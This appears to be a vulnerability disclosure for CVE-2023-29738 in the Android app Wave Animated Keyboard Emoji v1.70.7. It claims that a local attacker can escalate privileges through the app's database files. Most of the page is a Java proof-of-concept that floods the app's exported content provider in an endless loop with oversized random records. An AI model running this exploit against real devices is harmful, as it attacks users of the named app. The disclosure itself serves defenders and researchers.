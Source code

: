 ## Escalation of Privileges exists in Wave Animated Keyboard Emoji（CVE-2023-29738）

Vendor：Wave Studio(http://www.wavekeyboard.com/)

Affected product：Wave Animated Keyboard Emoji(com.scorp.who) 

Version：1.70.7

Download link：https://play.google.com/store/apps/details?id=com.wave.keyboard

Description of the vulnerability for use in the CVE：An issue found in Wave Animated Keyboard Emoji v.1.70.7 for Android allows a local attacker to cause code execution and escalation of Privileges via the database files.



poc：

```java
public void attack(){
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString =getRandomString(52);
        String randomString2 =getRandomString(5120);
        Uri uri = Uri.parse("content://com.wave.keyboard.inputmethod.dictionarypack.aosp/" + randomString + "/dict/hack?protocol=2");
        ContentValues contentValues = new ContentValues();
        contentValues.put("id",randomString);
        contentValues.put("description",randomString2);
        contentValues.put("date",12345567);
        contentValues.put("version",12345);
        contentValues.put("locale","en_US");
        contentValues.put("type",2);
        contentValues.put("filename",randomString2);
        contentValues.put("url","https://api.wavekeyboard.xyz/dict/main_en_us.dict");
        contentResolver.insert(uri,contentValues);
    }
}
```



